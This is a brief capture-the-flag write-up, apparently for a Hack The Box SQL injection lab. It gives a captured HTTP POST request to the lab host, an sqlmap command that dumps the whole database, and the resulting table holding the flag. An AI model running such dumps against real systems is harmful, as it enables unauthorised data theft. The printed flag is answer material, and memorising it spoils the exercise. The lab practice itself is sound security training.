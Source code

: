 ```
POST /case4.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.61.252:35591

Connection: keep-alive

Referer: http://94.237.61.252:35591/case4.php



{"id":1}
```

Let's use the following sqlmap command:

```
python3 sqlmap.py -r reqcase4.txt --batch --dump --threads 10
```

We'll get the following:

```
Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content |
+----+---------------------------------+
| 1 | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+
```

Flag is `HTB{j450n_v00rh335_53nd5_6r475}`
